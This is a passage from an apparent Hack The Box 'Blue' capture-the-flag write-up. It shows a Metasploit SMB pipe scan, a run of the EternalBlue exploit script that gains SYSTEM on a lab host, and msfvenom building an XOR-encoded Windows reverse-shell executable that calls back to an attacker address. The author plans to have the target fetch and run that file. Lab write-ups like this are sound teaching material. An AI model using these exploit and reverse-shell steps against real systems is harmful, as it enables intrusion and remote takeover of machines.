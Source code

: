 ```bash
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ msfconsole -q
msf6 > use auxiliary/scanner/smb/pipe_auditor 
msf6 auxiliary(scanner/smb/pipe_auditor) > set rhosts 10.10.10.40
rhosts => 10.10.10.40
msf6 auxiliary(scanner/smb/pipe_auditor) > run

[+] 10.10.10.40:445       - Pipes: \netlogon, \lsarpc, \samr, \browser, \atsvc, \epmapper, \eventlog, \InitShutdown, \keysvc, \lsass, \LSM_API_service, \ntsvcs, \plugplay, \protected_storage, \scerpc, \srvsvc, \trkwks, \W32TIME_ALT, \wkssvc
[*] 10.10.10.40:          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

We can use `netlogon` as our pipe. Now let's rerun it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ python2 42315.py 10.10.10.40 netlogon
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8004885020
SESSION: 0xfffff8a0015fa7e0
FLINK: 0xfffff8a0037dd088
InParam: 0xfffff8a0037d715c
MID: 0x3e03
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Done
```

So it worked! We don't have visibility over whether the file was created, as it is on the system itself not the SMB share. So now we have to modify the exploit to let us privesc.

We want to change the exploit to instead request a file from our box and execute it, using `service_exec()`.

First, we need to create a shell `.exe` file to upload to the box:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp lhost=10.10.14.2 lport=9001 -e x64/xor -i 5 -f exe -o shell.exe
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x64/xor
x64/xor succeeded with size 551 (iteration=0)
x64/xor succeeded with size 591 (iteration=1)
x64/xor succeeded with size 631 (iteration=2)
x64/xor succeeded with size 671 (iteration=3)
x64/xor succeeded with size 711 (iteration=4)
x64/xor chosen with final size 711
Payload size: 711 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```
